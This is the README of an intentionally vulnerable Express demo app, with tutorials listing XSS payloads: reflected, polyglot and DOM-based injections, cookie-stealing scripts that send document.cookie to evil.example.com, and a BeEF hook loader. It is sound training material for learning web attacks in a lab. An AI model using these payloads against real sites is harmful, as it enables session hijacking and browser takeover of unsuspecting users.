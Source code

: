 # Hands-on Express XSS

This application is a demonstration prototype just to show how to perform XSS attacks.

## Setting-up

### Deploy on heroku

[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy)
[![Deploy](https://www.herokucdn.com/deploy/button.svg)](https://heroku.com/deploy?template=https://github.com/0xdbe/Hands-on-Express-XSS)

### Deploy on your host

* Install nodejs

* Install dependencies

```console
$ npm install
```

* run application

```console
$ node app.js
```

* Make sure that TCP/3000 is allowed on your firewall


## Tutorials

These tutorials will walk you through using XSS attacks.

### Reflected XSS

* Open http://localhost:3000

* Complete name field with a simple XSS payload

```javascript
<script>alert("XSS");</script>
```

* Complete name field with a XSS payload (without script tag)

```javascript
<img src=1 href=1 onerror="javascript:alert('XSS')"></img>
```

* Complete name field with a XSS payload (with context breaking)

```javascript
" autofocus onfocus="alert('XSS')
```

* Complete name field with a polyglot XSS

```javascript
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*<svg/*/onload=alert('XSS')//>
```

### DOM-Based XSS

* Open http://localhost:3000/#message (A script inserts this URL fragment in the page)

* Open http://localhost:3000/#%3Cscript%3Ealert(%22XSS%22);%3C/script%3E


### Steal cookie

```javascript
<script>alert(document.cookie);</script>
```

Do you receive this cookie ? no

```javascript
<script>document.location= "http://evil.example.com/?cookie=" + document.cookie;</script>
```

Redirection will be suspicious! Try without redirecting on another page.

```javascript
<script>document.write('<img src="http://evil.example.com/img.jpg?cookie=' + document.cookie + '" />')</script>
```

### Beef

Payload to hook the page with BeEF:

```javascript
<img src=1 href=1 onerror="javascript: (function () { var url = 'http://127.0.0.1:4000/hook.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"></img>
```
